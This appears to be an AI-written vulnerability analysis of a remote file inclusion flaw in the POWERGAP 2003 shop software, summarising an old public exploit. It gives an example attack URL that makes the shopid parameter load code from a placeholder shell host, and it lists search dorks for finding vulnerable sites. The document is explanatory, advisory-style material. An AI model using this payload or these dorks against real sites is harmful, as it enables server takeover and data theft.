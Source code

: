 Based on the provided content, here's an analysis of the vulnerability:

**Root Cause of Vulnerability:**
The root cause is a remote file inclusion vulnerability present in multiple PHP files (s01.php, s02.php, s03.php, s04.php) within the POWERGAP 2003 application. The vulnerability stems from the improper handling of the `shopid` parameter in these files, which allows an attacker to inject a URL pointing to a malicious script.

**Weaknesses/Vulnerabilities Present:**
- **Remote File Inclusion (RFI):** The application directly includes the content from a URL specified by the user via the `shopid` parameter. There's no input validation or sanitization. This enables the attacker to execute arbitrary code.

**Impact of Exploitation:**
- **Arbitrary Code Execution:** An attacker can execute arbitrary code on the server by including a malicious PHP script hosted remotely. This can lead to full compromise of the affected system, allowing the attacker to:
    -  Gain unauthorized access to data
    - Modify or delete files
    -  Install malware
    -  Take complete control of the server.

**Attack Vectors:**
- **HTTP GET Parameter Manipulation:** The attacker crafts a malicious URL targeting the vulnerable PHP scripts, injecting a malicious script URL as the value of the `shopid` parameter, example: `http://sitename.com/s01.php?shopid=http://SHELLURL.COM?`.
- The vulnerability is triggered when the application fetches and executes the remote file via the `shopid` parameter.

**Required Attacker Capabilities/Position:**
- **Network Access:** The attacker needs network connectivity to the vulnerable server to send malicious HTTP requests.
- **Ability to host a malicious PHP file**: The attacker must host a malicious PHP file on a server they control to be included by the vulnerable application.

**Additional Notes:**
- The exploit also mentions using `sid` parameter, where `sid=http://SHELLURL.COM` also leads to exploitation
- The exploit lists the following dorks to find vulnerable sites: "powergap" or "s04.php" or s01.php or s02.php
- The exploit was first published to milw0rm.com on 2006-08-17

This information is more detailed than the placeholder CVE description and provides a clear understanding of the vulnerability.